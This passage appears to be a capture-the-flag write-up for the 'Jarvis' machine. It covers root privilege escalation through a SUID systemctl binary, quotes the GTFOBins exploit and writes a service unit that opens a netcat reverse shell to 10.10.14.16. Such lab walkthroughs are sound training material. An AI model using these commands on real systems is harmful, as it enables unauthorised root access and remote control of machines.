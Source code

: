 ```

```

In SUID checks, We could find `/bin/systemctl` was abnormal. 

```
pepper@jarvis:/var/www/html$ which systemctl
/bin/systemctl
pepper@jarvis:/var/www/html$ ls -al /bin/systemctl 
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl

```

Let's going to GTFObin. 

After viewed https://gtfobins.github.io/gtfobins/systemctl/, we found exploit command:

```
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

Great. Before we write c code , we should check the version of linux.

```bash
uname -a
```

We need to create a service that executes a file of our choice when it starts, then we’ll use `systemctl` to enable and start it and the file will get executed as root.

First, we build up a 443 local listener:

```bash
nc -lvp 443
```

Creating a new service that will run a Netcat reverse shell when started, and then starting it:

```bash
cd /home/pepper/
echo '[Service]
Type=notify
ExecStart=/bin/sh -c "nc -e /bin/bash 10.10.14.16 443"
KillMode=process
Restart=on-faillure
RestartSec=42s
[Install]
WantedBy=multi-user.target' > new.service
systemctl link /home/pepper/new.service
systemctl start new
```
